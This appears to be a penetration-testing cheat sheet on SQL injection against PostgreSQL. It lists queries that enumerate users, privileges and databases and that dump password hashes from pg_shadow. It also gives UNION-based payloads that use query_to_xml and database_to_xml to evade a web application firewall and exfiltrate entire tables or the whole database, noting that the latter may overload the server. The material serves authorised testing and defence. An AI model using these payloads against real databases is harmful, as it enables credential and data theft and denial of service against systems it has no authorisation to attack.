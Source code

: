 # PostgreSQL



## Injection SQL

### Cheat Sheet

Here is some userfull commands to deal with SQL injection:

| Detail                              | SQL command                                                                                          |
|:------------------------------------|:-----------------------------------------------------------------------------------------------------|
| Version                             | `SELECT version()`                                                                                   |
| List Users                          | `SELECT usename FROM pg_user`                                                                        |
| List users and passwords            | `SELECT usename, passwd FROM pg_shadow`                                                              |
| List Privileges                     | `SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user`                                      |
| Database Name                       | `SELECT current_database()`                                                                          |
| List databases                      | `SELECT datname FROM pg_database`                                                                    |
| List tables                         | `SELECT table_name FROM information_schema.tables`                                                   |
| List columns                        | `SELECT column_name FROM information_schema.columns WHERE table_name='data_table'`                   |
| Select nth row                      | `SELECT ... LIMIT 1 OFFSET {n}`                                                                      |
| Concatenate strings in the same row | `SELECT CONCAT(username, ', ', passwd) FROM pg_shadow`                                               |
| Concatenate column                  | `SELECT string_agg(column_name, ', ') FROM information_schema.columns WHERE table_name='data_table'` |



### XML functions

#### query_to_xml and

The following functions map the contents of relational tables to XML values:

```sql
query_to_xml(query text, nulls boolean, tableforest boolean, targetns text)
table_to_xml(tbl regclass, nulls boolean, tableforest boolean, targetns text)
cursor_to_xml(cursor refcursor, count int, nulls boolean, tableforest boolean, targetns text)
```

With `query_to_xml` you can bypass WAF and exfiltrate the query results in a
single string:

```sql
... UNION SELECT '1', '2', query_to_xml('select * from pg_user', true, true, ''), '4', ...
```


#### database_to_xml

The following function may be available and returns the entire current database:

```sql
database_to_xml(nulls boolean, tableforest boolean, targetns text)
```

The exploitation is as follow. Be careful the process may timeout or DOS the
server:

```sql
... UNION SELECT '1', '2', database_to_xml(true, true, ''), '4', ...
```
